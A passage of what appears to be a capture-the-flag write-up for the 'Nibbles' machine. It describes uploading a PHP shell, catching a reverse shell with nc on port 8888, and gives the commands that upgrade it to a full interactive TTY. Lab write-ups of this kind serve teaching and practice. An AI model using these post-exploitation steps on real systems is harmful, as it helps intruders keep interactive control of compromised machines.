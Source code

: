 The attacker then uploads the shell.php and sets up **nc** to listen for an incoming connection on port **8888**.

![](Nibbles.assets/image-20210427000953310.png)

The reverse shell is then stabilised using the following commands.

```bash
which python3 # to know which python version exists
python3 -c 'import pty;pty.spawn("/bin/bash")' # gets a proper tty shell
# the shell is then backgrounded using ctrl+z
stty raw -echo # this is executed on the attackers machine
# then press fg to resume the tty shell
export TERM=xterm # after setting the terminal type, the screen can now be cleared
stty rows 42 cols 172 # sets the size for the tty shell
```

![](Nibbles.assets/image-20210427001449345.png)
